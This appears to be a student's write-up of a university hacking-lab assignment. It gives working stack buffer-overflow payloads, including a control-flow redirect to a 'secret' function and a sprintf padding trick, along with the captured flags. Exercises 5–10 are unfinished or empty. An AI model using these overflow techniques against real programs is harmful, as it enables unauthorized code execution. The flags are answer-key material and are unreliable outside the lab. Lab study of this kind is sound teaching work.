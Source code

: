 ```html
<div style="page-break-after: always;"></div>
```

###### Exercise 1

> [!exercise]+ Exercise 1
> Go to /home/q1/. Exploit the program to get the secret.
> 
> **Answer:**
To exploit the program and obtain the secret, we target the buffer overflow vulnerability caused by `strcpy`. The `buffer` array has 1024 bytes, and `changeme` is immediately after it in memory. To overwrite `changeme`, our input needs to exceed the `buffer` size and alter `changeme`'s value from 0.
> 
> By supplying an input of 1028 characters, we overflow `buffer` and change at least one byte of `changeme`, triggering the conditional to reveal the secret.
>```
>student@hacklabvm:/home/q1$ ./run_me $(python -c 'print("A"*1025)')
 >_________________________________________
>/ csf2024s1_{flockwise-overdiversificatio \
>\ n-muriciform}                           /
> -----------------------------------------
>  \
>   \
>       __     
>      UooU\.'@@@@@@`.
>      \__/(@@@@@@@@@@)
>           (@@@@@@@@)
>           `YY~~~~YY'
>            ||    ||
>```

<div style="page-break-after: always;"></div>

###### Exercise 2

> [!exercise]+ Exercise 2
> Go to/ home/q2/. Exploit the program to get the secret.
> 
> **Answer:**
> This follows the same logic as exercise 1, but instead of overwriting `changeme` with anything, we need to change it to `0xabcdabcd`. Similar to before, we fill `buffer` with 1024 bytes of garbage, and now we must append `0xabcdabcd` in little endian format, i.e. `\xcd\xab\xcd\xab`.
> 
> Since we are limited to `python3`, the command is also a bit different due to the way strings are encoded.
>```
>student@hacklabvm:/home/q2$ ./run_me $(python3 -c 'import sys; sys.stdout.buffer.write(b"A"*1024 + b"\xcd\xab\xcd\xab")')
> _________________________________________
>/ csf2024s1_{salvifics-cohesionless-nondi \
>\ lation}                                 /
> -----------------------------------------
>  \
>   \
>       __     
>      UooU\.'@@@@@@`.
>      \__/(@@@@@@@@@@)
>           (@@@@@@@@)
>           `YY~~~~YY'
>            ||    ||
>```
<div style="page-break-after: always;"></div>

###### Exercise 3

> [!exercise] Exercise 3
> Go to /home/q3/. Exploit the program to get the secret.
> 
> **Answer:**
> This one is very similar to question 2. All we need to do is overwrite the unsigned int with the address of the `secret` function. We attain this by opening the binary inside `gdp` and printing the address.
> 
> ```
> (gdb) print secret
> $1 = {void ()} 0x565561ed \<secret>
> ```
> Now that we have the address, we convert it to little endian format and place it inside our payload (using the same method as question 2)
> 
> ```
> student@hacklabvm:/home/q3$ ./run_me $(python3 -c 'import sys; sys.stdout.buffer.write(b"A"*1024 + b"\xed\x61\x55\x56")')
> Jumping to function at 0x565561ed!!
>  _________________________________________
> / csf2024s1_{hiddenly-avitaminoses-diasta \
> \ lsis}                                   /
>  -----------------------------------------
>   \
>    \
>        __     
>       UooU\.'@@@@@@`.
>       \__/(@@@@@@@@@@)
>            (@@@@@@@@)
>            `YY~~~~YY'
>             ||    ||
> ```

<div style="page-break-after: always;"></div>

###### Exercise 4

> [!exercise]+ Exercise 4
> Go to /home/q4/. Exploit the program to get the secret.
> 
> **Answer:**
> Quite similar to the last question, except our input can only be less than 100 characters. Because `sprintf` is used instead of `strcpy`, we can get around this limitation by padding the input inside this function, rather than through python.
> 
> ```
> "%01024d"
>```
>
>Then we just need to find the address of the `secret` through GDB.
>```
>(gdb) print secret
$1 = {void ()} 0x565561fd \<secret>
>```
>Converting the address to little endian in hexadecimal and combining it all together, we get:
>
>```
>student@hacklabvm:/home/q4$ ./run_me $(python3 -c 'import sys; sys.stdout.buffer.write(b"%01024d" + b"\xfd\x61\x55\x56")')
>Jumping to function at 0x565561fd!!
> _________________________________________
>/ csf2024s1_{similarities-waftage-pockhou \
>\ se}                                     /
> -----------------------------------------
>  \
>   \
>       __     
>      UooU\.'@@@@@@`.
>      \__/(@@@@@@@@@@)
>           (@@@@@@@@)
>           `YY~~~~YY'
>            ||    ||
>```

<div style="page-break-after: always;"></div>
###### Exercise 5

> [!exercise]+ Exercise 5
> Go to /home/q5/. Exploit the program to get the secret.
> 
> **Answer:**
> This one is straightforward - create a `symlink`  



<div style="page-break-after: always;"></div>

###### Exercise 6

<div style="page-break-after: always;"></div>

###### Exercise 7

<div style="page-break-after: always;"></div>

###### Exercise 8

<div style="page-break-after: always;"></div>

###### Exercise 9

<div style="page-break-after: always;"></div>

###### Exercise 10







